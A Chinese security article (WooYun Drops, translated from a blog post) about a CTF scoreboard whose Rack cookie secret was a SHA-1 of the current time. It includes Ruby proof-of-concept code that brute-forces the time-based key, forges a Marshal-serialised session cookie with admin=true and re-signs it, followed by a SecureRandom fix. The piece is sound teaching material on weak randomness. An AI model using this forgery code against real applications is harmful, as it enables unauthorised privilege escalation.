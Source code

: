 # 弱随机化种子漏洞科普

2014/04/15 11:29 | [∑-TEAM](http://drops.wooyun.org/author/∑-TEAM "由 ∑-TEAM 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 背景

* * *

上周我参加了一个 Bishop Fox 和 BYU 大学举办的 CTF 比赛，在比赛过程中我决定尝试一下入侵一下计分系统，并且我把入侵的过程记录了下来。

尽管客户端的 token 欺骗已经不是什么新鲜事了，但是这次的入侵过程可以作为 weak randomness 漏洞的一个很好的练习。（这次攻击目标所使用的框架并不是像 Rails 一样常用的框架）

最后说一句：这个漏洞是框架自己带有的而不是 Bishop Fox 或者是 BYU 的问题。

## 0x01 cookie 运行原理

* * *

在开始之前，我推荐你阅读一下[这篇博文](http://robertheaton.com/2013/07/22/how-to-hack-a-rails-app-using-its-secret-token/)，他会告送你一个基于 ruby 的 webapps 如何处理 cookie。

简而言之，ruby 会生成一个 hash 数值作为一个 cookie 存储在用户客户端像这样

```
{ 'session_id' => '78894f58c088a9c6555370a0d97e373e715b91bc' } 
```

之后 ruby 分为三步把他存储到客户端

```
(1)使用 Marshal.dump 对数据结构进行序列化  
(2)使用 base64 编码第一步得到的字符串  
(3)计算 message 的 HMAC（HMAC 被用于 message 的完整性检查，这是 ruby 的一种机制以防用户篡改自己的 cookie） 
```

当以上三步做完之后，ruby 会在头文件中加入如下一段

```
Set-Cookie:"rack.session={base64-encoded message body}--{hmac};" 
```

实际的 cookie 是这样

```
Set-Cookie:"rack.session=BAh7BkkiD3Nlc3Npb25faWQGOgZFVEkiRTViNDY1NjdkYTAzYjYwYTdlZGIy%0ANDg4NWEyMzVlY2E2YzRkYmM5M2IwYzgxZWJlMDc1NmQ0NGRmODE0ZjEzYjAG%0AOwBG%0A--2148e8dc04eeba3bf0f4e0d70c04465b61c4758d;" 
```

上述处理 cookie 的过程有一个漏洞，message 中的信息可以被客户端还原，只需要对它进行 base64 解码和反序列化即可得到原始的 ruby object

ruby 对于 cookie 信任的前提是，通过 HMAC 验证 message 中的内容必须是有你代码中设定的密钥标记过的，只有这样 ruby 才会把 cookie 当做一个有效地凭证。

下图就是上述过程简要流程

![enter image description here](img/img1_u152_png.jpg)

如果你篡改了你的 cookie，会导致 HMAC 验证不通过，从而使你修改过的 cookie 值失效。

## 0x02 简介

* * *

CTF 的评分系统是一个 Sinatra-based 的 webapp，它使用了一些基本的 Rails 机制，提供了一个计分板的效果。看一下代码，还是比较简洁的。

这个 webapp 有一个有趣的现象就是，默认情况下代码库中没有配置文件，配置文件是在程序运行过程中生成的，下面是创建配置文件的代码。

```
begin
  require './config.rb'
rescue Exception => e
  # create default config.rb
  open('./config.rb', "w+") {|f|
    f.puts <<-"EOS"
COOKIE_SECRET = "#{Digest::SHA1.hexdigest(Time.now.to_s)}"
ADMIN_PASS_SHA1 = "08a567fa1a826eeb981c6762a40576f14d724849" #ctfadmin
STYLE_SHEET = "/style.css"
HTML_TITLE = "scoreserver.rb CTF"
EOS
    f.flush
  }
  require './config.rb'
end

```

值得注意的是，COOKIE_SECERT 就是前文中提到的 HMAC 所使用的 key。他是`Time.now.to_s`的 SHA-1 散列。这段代码中所使用的`Time.now.to_s`就是我们所说的不健壮的随机化种子。

## 0x03 原理

* * *

现在我们很容易知道，如果想要伪造 cookie，就必须得到一个合法的 HMAC 字符串，只有得到它之后，我们才可以通过修改 session-id 来控制 session。

这个漏洞的根源是因为它使用了，弱随机化种子，在上文的代码中，SHA1-hashing 加密了一个秒级别的精度的字符串，这样我们就可以使用暴力的方法尝试一天之内秒数只需要`60 x 60 x 24`次尝试。

而且我们并不需要把每次的尝试结果提交到 web 服务器，只需要在本地计算出正确的 key，然后再通过它构造出正确的 HMAC 提交即可。

## 0x04 POC

* * *

为了确定一下我们是否可以破解 HMAC，我们可以试一下。

首先，我们从 webapp 得到 cookie 和 HMAC。如果你想自己测试，copy 以下代码运行即可。

```
require 'faraday'

connection = Faraday.new(:url => 'http://localhost:4567')
response = connection.get '/'
cookie, hmac = response.headers[:'set-cookie'].split.first.chop.split('=').last.split('--')

```

现在我们只需要不断的获取 Time.now 和创建 HMACs 直到匹配为止。我们通过一个循环依次减小时间，直到找到正确的时间使得 SHA1 散列匹配而得到 session key。

```
require 'digest/sha1'
require 'openssl'

def create_hmac message, key
  OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, key, CGI.unescape(message))
end

seed = Time.now

while (hmac != create_hmac(cookie, Digest::SHA1.hexdigest(seed.to_s))) do
    seed -= 1
end

key = Digest::SHA1.hexdigest(seed.to_s)

```

这样我们就可以成功破解 key 了，这个 key 可以帮助我们创建合法的 HMAC。

## 0x05 利用

* * *

得到了 key，我们就可以找一下源代码中有什么能让我们提升权限的地方。

首先，代码会对 cookie 进行反序列化。

```
params = Marshal.load(Base64.decode64(CGI.unescape(cookie)))

```

这样修改之后，我们就可以赋予自己管理员权限。

```
params.merge!({ 'admin' => true })

```

通过上述语句重建 cookie

```
bad_cookie = CGI.escape(Base64.encode64(Marshal.dump(params)))
bad_hmac = create_hmac(bad_cookie, key)
header = "rack.session=#{bad_cookie}--#{bad_hmac};"

```

只要把上面得到的 cookie 内容，加到 header 里面就可以获取管理员权限了。

到达这一步只要查看源代码就可以很轻易地获取到每一题的答案了。

## 0x06 防御方法

* * *

我在 github 上提交了一个修改版本，其中使用这句代替了 cookie secret key 的生成

```
Digest::SHA1.hexdigest(Time.now.to_s) 
```

使用 SecureRandom 库生成随机数

```
SecureRandom.hex(20) 
```

这会生成一个 40 个字符的随机字符串

## 0x07 结论

* * *

这篇文章虽然在技术上没有什么实质性突破，但是作为一个弱随机漏洞的例子还是很不错的，希望在思路上可以启发到各位。

from:[`blog.tjll.net/weak-random-seed-rack-exploit/`](http://blog.tjll.net/weak-random-seed-rack-exploit/)

版权声明：未经授权禁止转载 [∑-TEAM](http://drops.wooyun.org/author/∑-TEAM "由 ∑-TEAM 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [php4fun.sinaapp.com PHP 挑战通关攻略](http://drops.wooyun.org/papers/660)
*   [WordPress 3.8.2 cookie 伪造漏洞再分析](http://drops.wooyun.org/papers/1409)
*   [PHP 安全编码](http://drops.wooyun.org/tips/135)
*   [利用 HTTP host 头攻击的技术](http://drops.wooyun.org/papers/1383)
*   [HttpOnly 隐私嗅探器](http://drops.wooyun.org/tips/2834)
*   [Zabbix SQL Injection/RCE – CVE-2013-5743](http://drops.wooyun.org/papers/680)